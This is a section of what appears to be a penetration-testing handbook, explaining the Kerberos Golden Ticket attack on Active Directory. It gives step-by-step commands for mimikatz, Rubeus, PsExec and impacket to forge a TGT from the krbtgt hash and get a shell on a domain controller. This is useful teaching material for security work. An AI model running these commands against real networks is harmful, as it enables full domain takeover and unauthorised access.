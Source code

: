 

### 5.4.3 Golden Ticket

A Golden Ticket is a forged TGT that grants the user full Domain Admin rights across the entire domain. It requires having access to the `krbtgt` account's password hash, which means we've either compromised a Domain Admin account or the Domain Controller machine directly. The `krbtgt` account's hash is what the KDC uses for signing (encrypting) TGTs in the AS-REP. It's special because it's never changed automatically.

Taking advantage of a Golden Ticket is a form of overpass-the-hash, using the `krbtgt` hash to forge a TGT directly instead of submitting an AS-REQ with a regular user's hash to get the DC to grant you a TGT.

Before starting, make sure you have the `krbtgt` hash. You can get this many ways, including running `lsadump::lsa` in mimikatz on the DC, performing a dcsync attack, etc. Additionally, you must use an existing username (as of July 2022), and not a phony one.

```powershell
# extract the Domain SID from the user's SID
# (remove the RID and keep the rest. RID is last set of numbers in SID)
whoami /user

# in mimikatz shell
privilege::debug
# remove all existing tickets, so they don't conflict with the one you're forging
kerberos::purge
# forge golden ticket, load into memory with /ptt
# note use of '/krbtgt:' to pass NTHASH instead of '/rc4:' - difference b/w silver
# use '/aes256:' for AES256 kerberos hash
kerberos::golden /user:USER /domain:DOMAIN /sid:S-1-5-21-.... /krbtgt:NTHASH /ptt
# start cmd shell with new ticket in its context
misc::cmd cmd

# alternatively, use Rubeus (/aes256: if desired)
.\Rubeus.exe golden /ptt /rc4:HASH /user:USERNAME /ldap [outfile:FILENAME]
# here's loading a saved ticket:
.\Rubeus.exe ptt /ticket:ticket.kirbi

# list tickets in memory, make sure its there
klist

# now use overpass-the-hash technique (full domain name required)
.\PsExec.exe \\dc1 cmd.exe
```

You can forge a Golden Ticket on Kali:

```sh
# look up domain SID
impacket-lookupsid DOMAIN/USER:PASSWORD@VICTIM

# use -aesKey for AES256 hashes
impacket-ticketer -nthash NTHASH -domain-sid S-1-5-21-.... -domain DOMAIN USERNAME
export KRB5CCNAME=$(pwd)/USERNAME.ccache
impacket-psexec -k -no-pass DOMAIN/USERNAME@VICTIM
# be sure to use FQDNs. Pass -dc-ip and -target-ip if necessary to resolve FQDNs
```
